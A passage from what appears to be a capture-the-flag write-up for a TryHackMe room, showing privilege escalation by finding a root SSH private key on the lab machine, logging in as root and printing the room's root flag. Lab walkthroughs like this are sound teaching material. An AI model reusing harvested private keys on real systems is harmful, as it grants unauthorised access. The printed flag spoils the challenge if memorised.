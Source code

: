 And there is a `root.txt` file there, but it's not the root flag.

~~~
varg@cchq:~$ cat /opt/CooctFS/root/root.txt 
hmmm...
No flag here. You aren't root yet.
~~~

## Root flag

That said, we can find the root SSH private key (`/opt/CooctFS/root/.ssh/id_rsa`). Save it locally, give it the proper permissions, and use it to connect as `root`:

~~~
┌──(kali㉿kali)-[/data/Cooctus_Stories/files]
└─$ chmod 400 root.key                                  
                                                                                                                     
┌──(kali㉿kali)-[/data/Cooctus_Stories/files]
└─$ ssh -i root.key root@10.10.94.63                    
root@cchq:~# cat /root/root.txt 
THM{H4CK3D_BY_C00CTUS_CL4N}
~~~

Root flag: `THM{H4CK3D_BY_C00CTUS_CL4N}`
